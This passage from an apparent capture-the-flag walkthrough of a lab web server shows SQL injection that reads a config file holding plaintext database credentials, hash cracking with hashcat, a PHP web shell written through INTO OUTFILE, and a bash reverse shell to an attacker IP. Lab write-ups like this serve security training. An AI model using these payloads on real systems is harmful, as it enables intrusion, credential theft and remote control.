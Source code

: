           }
        else{
          header("Location:index.php");
          }
        ```
        
    
    ### connection.php
    
    - `TO_base64(LOAD_FILE('/var/www/html/connection.php'))`
    
    ```php
    <?php
    $connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
    ?>
    ```
    

### Hashcat:

Hash Format: 300 | MySQL4.1/MySQL5

- `hashcat -m 300 hash /usr/share/wordlists/rockyou.txt`

Password: imissyou

**Login in phpMyAdmin:** DBadmin:imissyou

---

# Gaining Access

## 1. SQL (INTO OUTFILE) - RCE

**1. Methode: Crate File with  SQL Command**

On the phpMyAdmin is a SQL query box: [http://logger.htb/phpmyadmin/server_sql.php](http://logger.htb/phpmyadmin/server_sql.php)

We can crate a PhP Web-Shell file in the images folder. (*We need write permissions on this folder*) 

```
SELECT "<?=`$_GET[cmd]`?>" INTO OUTFILE "/var/www/html/images/shell.php"
```

- http://logger.htb/images/test1.php?cmd=id
→ uid=33(www-data) gid=33(www-data) groups=33(www-data)
- http://logger.htb/images/test1.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.22%2F1234%200%3E%261%27

**Extra: With cod Parameter:** (*no phpMyAdmin Login needed*)

- SELECT "<?=`$_GET[cmd]`?>" ⇒ URL-Decode ⇒ select+'<%3f%3d`$_GET[cmd]`%3f>'
- INTO OUTFILE '/var/www/html/images/shell.php'
    - ?code=999 union select "1","2",(select+'<%3f%3d`$_GET[cmd]`%3f>'),"4","5","6","7" INTO OUTFILE '/var/www/html/images/shell.php'
